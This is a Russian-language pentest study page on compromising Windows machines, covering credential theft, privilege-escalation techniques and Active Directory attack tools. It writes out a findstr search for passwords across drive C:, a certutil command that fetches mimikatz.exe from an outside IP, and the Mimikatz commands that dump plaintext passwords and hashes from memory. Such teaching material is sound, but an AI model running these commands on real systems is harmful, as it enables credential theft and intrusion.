 ### Компрометация Windows-машин в сети

## **Материалы для самостоятельного изучения**

- [Памятка](https://github.com/frostbits-security/MITM-cheatsheet) по атакам MITM
- [Телеграмм канал](https://t.me/c4s73r_channel) Магамы Базарова - эксперта по сетевым атакам
- [Responder](https://github.com/lgandx/Responder)
- [Все об атаках](https://blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/) на аутентификацию в Windows
- [О работе атаки](https://en.hackndo.com/ntlm-relay/) NTLM Relay


# Извлечение секретов и учетных данных
## Яркими представителями этой категории являются следующие методы повышения привилегий:
- Взлом менеджеров паролей пользователей по причине небезопасной конфигурации
- Обнаружение секретов и учетных в логах и истории команд
- Извлечение учетных данных из оперативной памяти
- Доступ к файлу, хранящемуся хеши пользовательских паролей 
- Извлечение учетных данных из конфигурации Групповых Политик

# Поиск секретов и паролей в ОС
В первую очередь мы помним, что можно попытаться самостоятельно поискать пароли в различных файлах ОС при помощи команд терминальной оболочки, например:

cd C:\ & findstr /s /p /i /n /m "password" *.xml *.ini *.txt *.config

Эта команда выполняет поиск строки "password" внутри всех файлов с расширениями .xml, .ini, .txt и .config в текущем диске C:.

Более подробно, каждая часть команды выполняет следующие действия:
cd C:\ — переходит в корневую папку диска C:
findstr — команда для поиска строк в файлах
/s — выполняет поиск строк во всех подпапках
/p — пропускает файлы с непечатными символами
/i — игнорирует регистр символов при поиске строк
/n — выводит номер строки, содержащей строку
/m — выводит только имя файла, если файл содержит совпадение


# Извлечение учетных данных из оперативной памяти
Самым ярким примером здесь будет извлечение учетных данных из оперативной памяти процессов.
Факт:
В Windows для реализации механизма HTTP Digest Authentication для поддержки SSO (Single Sign On) требуют знание вводимого пароля, а не только его хеша. Поэтому разработчики Windows решили хранить пароли пользователей в открытом виде. Для извлечения паролей и хешей из оперативной памяти можно использовать инструмент Mimikatz.


# Mimikatz — инструмент, реализующий функционал Windows Credentials Editor и позволяющий извлекать учетные данные пользователей Windows.
Дополнительную информацию по данному инструменту можно получить по следующим ссылкам: \
• Что такое Mimikatz: руководство для начинающих — https://habr.com/ru/company/varonis/blog/539340/ \
•  Справка по mimikatz — https://kali.tools/?p=5342

# Применение Mimikatz
•  Для загрузки инструмента mimikatz необходимо перейти в папку с правами на запись, например в C:\Windows\System32\spool\drivers\color. \
•  Далее следует загрузить mimikatz на целевую машину. Это можно сделать утилитой, позволяющей скачивать файл по сети certutil: certutil -urlcache -split -f http://10.10.14.16/mimikatz.exe m.exe \
•  После запуска Mimi нужно указать следующую команду, которая предоставит текущей учетной записи права отладки процессов (SeDebugPrivilege): privilege::debug \
•  Следующая команда вернет список всех хранящихся на этой машине хешей и паролей в виде незашифрованного текста:sekurlsa::logonPasswords \


## Условия для Mimikatz
Для того, чтобы Mimikatz успешно извлёк пароли и хеши, необходимы права SeDebugPrivilege, которые, как правило, есть у Администратора и нечасто встречаются у рядового пользователя. Тем не менее, процедура извлечения учётных данных из памяти необходима в рамках проведения работ по пентесту для возможности как вертикального, так и горизонтального перемещения.



# Эксплуатация уязвимостей конфигурации ОС Windows
В этой категории яркими примерами возможных методов повышения привилегий будут следующие: \
• Повышение привилегий через права на создание резервных копий (SeBackupPrivilege) \
• Повышение привилегий через через перехват сервиса (Weak Services Permission) \
• Повышение привилегий через имперсонификацию SeImpersonatePrivilege (JyicyPotato) \
• Повышение привилегий через права на установку ПО (AlwaysInstallElevated) \
• Повышение привилегий через изменение пути бинарного файла сервиса (Service Binary Path) \
• Повышение привилегий через подмену DLL библиотек (DLL Hijacking) \
• Повышение привилегий через неэкранированные пути сервисов (Unquoted Service Paths) \


# Эксплуатация известных уязвимостей ОС Windows
Приведем пример некоторых достаточно популярных уязвимостей ОС, позволяющих повысить привилегии до максимальных: \
• Уязвимость в установщике Windows (InstallerFileTakeOver (0day) \
• Уязвимость в Windows Print Spooler (PrintNightmare) \
• Уязвимость в планировщике задач Windows (MS10-092) \
• Уязвимость в ядре Windows (MS16_014) \
• Обработка вторичного входа в систему (MS16-032) \


# Рекомендуемые ресурсы
• Hacktrics: https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

# Active Directory:
• Чеклист по тестированию защищенности Active Directory:  \
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology \
• Эксплуатация Zerologon:  \
https://medium.com/mii-cybersec/zerologon-easy-way-to-take-over-active-directory-exploitation-c4b38c63a915 \
• Эксплуатация уязвимостей в AD CS \
https://posts.specterops.io/certified-pre-owned-d95910965cd2 \

Помимо блогов, предлагаем вам подборку отличных инструментов, ориентированных на Active Directory, которые не только полезны, но и могут позволить вам изучить множество механизмов и протоколов Active Directory, просмотрев их код (это далеко не исчерпывающий список, и многие другие перечислены и показаны в статье выше). \
• mimikatz(https://github.com/ParrotSec/mimikatz):  вероятно, самый известный инструмент для атаки на Windows и Active Directory. Он реализует на C все виды атак для получения учетных данных с компьютеров Windows и выдачи себя за пользователей в Active Directory. \
• impacket: Impacket реализует многие из протоколов на python, и стоит знать, как это работает, чтобы узнать о них больше. Он также включает в себя множество примеров, реализующих атаки, описанные в статье. \
• responder.py: Responder позволяет вам выполнять множество PitM-атак, злоупотребляя протоколами разрешения Windows и предоставляя вам множество серверов протоколов, которые будут собирать NTLM-хэши. Стоит знать, как это работает. \
• Rubeus: Rubeus – это пакет C# для выполнения атак Kerberos с компьютеров под управлением Windows. Вы можете проверить это, чтобы узнать много нового о том, как работает Kerberos. \
• CrackMapExec: CME – это инструмент на python, который позволяет вам простым способом выполнять множество различных атак, описанных здесь. \
• BloodHound: BloodHound позволяет вам сопоставлять сеть Active Directory с множеством различных запросов LDAP и другими. Вам следует проверить это, если вы хотите узнать о разведке Active Directory. \
• Powerview: инструмент Powershell, который реализует множество LDAP-запросов Active Directory и других протоколов для извлечения всех видов информации из Active Directory. \
• Empire: набор для развертывания агентов на компьютерах Active Directory, который позволяет выполнять все виды атак. Содержит множество инструментов для выполнения разведки и атак через Active Directory, которые стоит проверить. \
